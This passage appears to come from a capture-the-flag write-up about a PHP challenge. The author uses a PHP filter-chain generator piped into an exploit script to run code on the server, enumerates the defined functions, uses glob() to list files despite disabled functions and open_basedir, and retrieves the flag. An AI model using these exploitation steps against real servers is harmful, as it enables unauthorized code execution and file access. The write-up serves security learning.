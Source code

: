 a reverse shell is not possible since `exec`, `system`, `shell_exec`, and `popen` are disabled and we can't scan directories either since `opendir`, `readdir`, and `scandir` are also disabled.

also `open_basedir` is set to `/var/www/html`, so we can't read files outside of that directory.

## `get_defined_functions()`

i was running out of ideas, so i tried to read the output of `get_defined_functions()` to see if there are any useful functions that we can use.

```bash
python3 php_filter_chain_generator.py --chain '<?php var_dump(get_defined_functions()); ?>' | bun run exploit.ts
```

after a while, i found the `glob()` function in the output:

```
[0]=>
  ...
  [635] => string(4) "glob"
  ...
}
```

the `glob()` function is not disabled, and it can be used to read files in a directory.

## finding the flag

let's use `glob()` to read the files in the `/var/www/html` directory (since `open_basedir` is set to that directory):

```bash
python3 php_filter_chain_generator.py --chain '<?php var_dump(glob("/var/www/html/*")); ?>' | bun run exploit.ts
```

```
array(3) {
  [0]=>
  string(17) "/var/www/html/api"
  [1]=>
  string(52) "/var/www/html/flag-94583458938490289047237492374.txt"
  [2]=>
  string(23) "/var/www/html/index.php"
}
```

boom! we found the flag file!

```bash
$ curl http://57.128.112.118:11149/flag-94583458938490289047237492374.txt
SHLK{fr0m_l177l3_vuln_70_70p_vuln}
```

there we go!
